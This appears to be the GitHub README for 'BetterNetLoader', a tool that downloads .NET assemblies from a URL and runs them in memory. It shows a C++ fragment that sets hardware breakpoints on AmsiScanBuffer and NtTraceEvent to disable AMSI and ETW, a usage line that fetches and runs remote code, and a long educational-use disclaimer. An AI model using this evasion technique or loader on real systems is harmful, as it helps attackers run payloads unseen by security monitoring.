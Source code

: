 # BetterNetLoader

This is a version of [NetLoader](https://github.com/Flangvik/NetLoader) to execute .NET Assemblies in memory and bypassing ETW and AMSI.

Only this version uses Hardware Breakpoints to bypass defenses:
```cpp
HwbpEngineBreakpoint(0, GetProcAddress(LoadLibraryA("amsi.dll"), "AmsiScanBuffer"));
HwbpEngineBreakpoint(1, GetProcAddress(LoadLibraryA("ntdll.dll"), "NtTraceEvent"));
if (!(ExceptionHandle = AddVectoredExceptionHandler(TRUE, (PVECTORED_EXCEPTION_HANDLER)HwbpEngineHandler))) {
  printf("[-] AddVectoredContinueHandler Failed with Error: %lx\n", GetLastError());
	goto _END_OF_FUNC;
}
```

It places 2 Hardware Breakpoints: one on `AmsiScanBuffer` and another on `NtTraceEvent` to effectively disable these two functions part of AMSI and ETW respectively.

# Usage:

```cmd
.\BetterNetLoader.exe <url> <arguments...>
```

# Example:
![image](https://github.com/user-attachments/assets/1ad9283c-057e-4e30-be0b-a7c3303dabf5)

# DISCLAIMER

## IMPORTANT: READ CAREFULLY BEFORE USING THIS SOFTWARE

By using this software, you agree to the following terms:

## Purpose of Use
This software is provided strictly for educational purposes only, specifically to help users understand programming techniques, cybersecurity concepts, and software development practices. It is not intended to be used for any malicious, illegal, or unethical activities.

## Prohibited Activities
Any use of this software for the following purposes is explicitly prohibited and is a violation of this agreement:

Exploiting vulnerabilities or gaining unauthorized access to systems, networks, or devices.
Developing or deploying malicious software, such as viruses, trojans, or ransomware.
Engaging in any activities that violate local, national, or international laws or regulations.
Conducting activities that cause harm, disruption, or damage to any individual, organization, or system.

## Liability and Responsibility

The author of this software assumes no liability or responsibility for any damages, losses, or legal consequences resulting from the misuse of this software.
The user is solely responsible for ensuring compliance with all applicable laws and regulations in their jurisdiction. The author disclaims all liability for actions taken by users that violate these laws or this disclaimer.
Acknowledgment of Ethical Use

## By using this software, you acknowledge and agree to:

Use the software in a responsible, ethical, and lawful manner.
Refrain from using the software in any way that could harm individuals, organizations, or infrastructure.
Understand that this software is provided "as is," without any warranty or guarantee of functionality or suitability for any purpose.

## Educational Focus
This software is designed to educate and enhance skills in secure programming, ethical cybersecurity practices, and system understanding. It is intended for use in controlled environments, such as personal research or academic study, where proper authorization has been granted.

By downloading, installing, or using this software, you acknowledge that you have read, understood, and agreed to this disclaimer. If you do not agree with these terms, you are strictly prohibited from using the software and must delete it immediately.

